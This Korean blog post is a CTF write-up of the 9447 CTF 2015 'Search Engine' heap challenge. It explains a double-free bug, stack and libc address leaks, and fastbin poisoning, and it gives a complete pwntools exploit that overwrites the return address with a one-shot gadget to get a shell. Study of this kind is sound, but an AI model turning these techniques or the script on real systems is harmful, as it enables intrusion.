 ```yaml
---
layout: post
title: ! "[9447 CTF 2015] Search Engine"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - Pwnable
  - heap
  - MyriaBreak
---
```


요즘 `Heap` 쪽을 공부하고 있습니다. 그래서 `Shellphish`팀에서 정리해놓은 `how2heap`문서를 보면서 공부를 하고 있는데, 처음부터 굉장히 어려운 문제를 잡은 느낌이 듭니다 ;;
이 문제를 본 것은 한달 전이지만 푼 것은 한달 후네요 ㅠ
아무튼 시작했으니 끝을 보긴해야해서 이렇게 write up으로 남겨봅니다.

<!--more-->

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_01.PNG)

예시가 너무 어렵습니다 `Shellphish`팀... 쉬운 문제없나요 ㅠ

```
Ever wanted to search through real life? Well this won't help, but it will let you search strings.

Find it at search-engine-qgidg858.9447.plumbing port 9447.

```

아무튼 문제는 위와 같습니다. 문자열 검색을 수행하는 바이너리를 하나 던져주는데, 보호기법을 확인해보면 아래와 같습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_04.PNG)

`Canary`와 `NX`가 걸려있는데, 일단 한번 실행해보는게 좋을 것 같습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_02.PNG)

주어진 바이너리를 실행하게 되면 3가지 메뉴가 주어지고 문자열을 추가(Index), 검색(Search)할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_03.PNG)

그리고 Search를 통해 단어를 검색하여 그 단어가 포함된 문장을 검색할 수 있고, 또 검색한 후 그 문자열을 삭제할지 말지를 결정할 수 있습니다.

이제 `IDA`를 통해 바이너리의 자세한 과정을 살펴보겠습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_05.PNG)

while문안에서 메뉴를 출력하고 어떤 기능을 수행할지 선택하게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_08.PNG)

`AddSentence함수`를 살펴보면 위와 같이 구조체를 malloc을 통해 할당하여 입력받은 문장을 저장하는 것을 볼 수 있습니다.

또한 `공백`을 기준으로 word를 나눠서 이를 또 구조체를 malloc으로 할당해서 `Linked list`를 만들게 됩니다.


```c++
struct dic {
    char* word_addr;
    int word_size;
    char* sentence_addr;
    int sentence_size;
    struct dic* next;
};
```
그럼 이제 어디서 취약점이 터지느냐?
아래 `Search`함수를 보면 `memset`을 통해서 `sentence`에 저장된 내용은 NULL(0)으로 모두 지워버리고, `free`를 하는 것을 볼 수 있습니다. 하지만 `word`들이 저장된 `Linked List`에서는 이를 삭제해버리지 않기때문에, NULL값을 검색하게되면 이미 삭제되었던 값을 다시 한번 삭제하고 `free`할 수 있게 되어 `double free bug`가 발생하게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_07.PNG)

그러므로 우리는 여기서 fastbin list를 `HEAD -> B -> A -> B` .. 형식으로 만들 수 있고, B를 2번 할당할 수 있으므로 B의 `fd` 값을 수정하여 다음에 할당할 영역의 주소를 임의로 조작할 수 있습니다.

그런데 어디에 있는 값을 수정해야할까요?

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_10.PNG)

main함수가 끝나는 `ret`에 break를 걸고 스택에 있는 값을 살펴보면 위와 같습니다. 0x40~~이 있는데 이 위치를 잘 조정해서, 아래와 같이해서 fastbin리스트에 넣게되면 0x40을 size로 보고 정상적으로 `fastbin`에 포함되게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_11.PNG)

>하지만 저희는 스택값을 모르는데요?

그래서 스택값을 `leak`해야하는데, 이것은 아래 함수를 통해서 할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_06.PNG)

위 함수는 사용자로부터 숫자를 입력받고, 만약 숫자가 아닌값이 입력된다면 재귀적으로 다시 한번 자기자신을 호출하여 숫자를 입력받을 때까지 계속하게 호출되게 됩니다.
그런데 이 때 2번째 `Select_choice`함수를 호출하게 될 때, 이전 함수의 ebp가 남아있게 되는데 이 위치가 `num+48`에 있기때문에 num을 입력할 때, 문자열 48자리로 채우게 되면 printf로 출력될 때 NULL바이트를 만날때까지 출력되기때문에 스택주소를 leak할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_12.PNG)

자.. 이제 스택 주소도 구했겠다. 이제 `library주소`만 leak할 수 있다면 완벽할 텐데 말이죠. 그래서 여러가지 알아보던 중에 저희 팀의 `chaem`님이 올린 글을 보게됬는데, 여기서 smallbin을 이용해서 library주소를 leak할 수 있다는 것을 알게 되었습니다.

---
[(0ctf2017) babyheap Write up](https://go-madhat.github.io/0ctfbabyheap-writeup/)에서 나온 smallbin을 이용하는 방법입니다.

#### 6. 그리고 4번 chunk의 크기를 다시 smallbin 크기로 만들어주고 free합니다. free하면 smallbin 특성상 unsorted bin이 되기 때문에 fd와 bk에 main_arena+88 주소가 남게 됩니다. 이 점을 이용하면 dump를 통해 main_arena+88의 leak이 가능합니다.
---

fastbin 이외의 다른 bin들은 free되고 나면 데이터영역에 fd와 bk가 남게되는데, 이 때 다음 fd와 bk를 연결할 chunk가 없다면 libc의 `<main_area+88>`의 주소가 남게됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_14.PNG)
![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_13.PNG)
![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_15.PNG)

자. 이제 `libc_base`도 구했고, `stack_address`도 있으니 `double free bug`를 이용해서 `ret`에 원하는 주소를 쓰면 되겠습니다.

이것을 정리하면 아래와 같습니다.

1. `stack address`, `libc_base` leak
2. `oneshot_gadget` 구하기
3. `ret`를 `oneshot_gadget`으로 덮기

```python
#!/usr/bin/env python
from pwn import *

conn = process("search")

def leak_stack():
	conn.recvuntil("3: Quit")
	conn.sendline("1")
	conn.recvuntil("size:")
	conn.sendline("A")
	conn.recvuntil("number")
	conn.sendline("A"*48)
	stack_addr = conn.recvuntil(" is ")[-10:-4]
	stack_addr = u64(stack_addr + "\x00"*2)
	conn.sendline("1")
	conn.recvuntil("word:")
	conn.sendline("A")
	return stack_addr

def Search(word, size):
	conn.recvuntil("3: Quit")
	conn.sendline("1")
	conn.recvuntil("size:")
	conn.sendline(str(size))
	conn.recvuntil("word:")
	conn.sendline(word)

def Delete(choice):
	conn.recvuntil("(y/n)?")
	conn.sendline(choice)

def AddSentence(sentence, size):
	conn.recvuntil("3: Quit")
	conn.sendline("2")
	conn.recvuntil("size:")
	conn.sendline(str(size))
	conn.recvuntil("sentence:")
	conn.sendline(sentence)

stack_addr = leak_stack() + 0x92 # fake size 0x40
log.info("stack_addr : 0x%x" % stack_addr)

#leak_libc  -  <main_arena+88>
AddSentence("A"*506+" small", 512)
Search("small", 5)
Delete("y")

Search("\0"*5, 5)
conn.recvuntil(": ")
libc_addr = u64(conn.recv(8)) - 0x3c4b78
log.info("libc_addr  : 0x%x" % libc_addr)
Delete("n")

# double free bug
AddSentence("A"*50+" dfb", 54) #A
AddSentence("B"*50+" dfb", 54) #B
AddSentence("C"*50+" dfb", 54) #C

# fastbin HEAD -> A -> B -> C -> NULL
Search("dfb", 3)
Delete("y") #C
Delete("y") #B
Delete("y") #A

# fastbin HEAD -> B -> A -> B -> C -> NULL
Search("\x00"*3, 3)
Delete("y") #B
Delete("n") #A

# fastbin HEAD -> B -> A -> B -> X ...
AddSentence(p64(stack_addr).ljust(54), 54) #B
AddSentence("A"*50+" dfb", 54) #A
AddSentence("A"*50+" dfb", 54) #B

# ret overwrite
oneshot = libc_addr + 0x45216
log.info("oneshot  : 0x%x" % oneshot)

payload = "A"*6
payload += p64(oneshot)
AddSentence(payload.ljust(54), 54) #B

conn.recvuntil("3: Quit")
conn.sendline("3")

conn.interactive()



```

이제 익스코드를 돌려보면 아래와 같이 쉘을 얻은 것을 볼 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_16.PNG)

### *후기

역시 heap은 어렵군요 ㅠㅠ 더 열심히 공부해야겠습니다. 분명 비슷한 문제를 이전에 풀어본거같은데, 할 때마다 heap은 헷갈리는 것 같습니다. 익숙치않아서 그런걸까요 ㅎㅎ;
그리고 저는 pwnalbe문제를 풀 때 주로 peda를 쓰는데, 역시 heap 문제 풀때는 pwndgb가 더 편한것같네요... 다음에 문제를 풀게 되면 한 번 이용해봐야겠습니다. 워낙 익숙하지않아서 후... 다음번에는 좀 더 문제를 빠르게 풀 수 있으면 좋겠습니다!
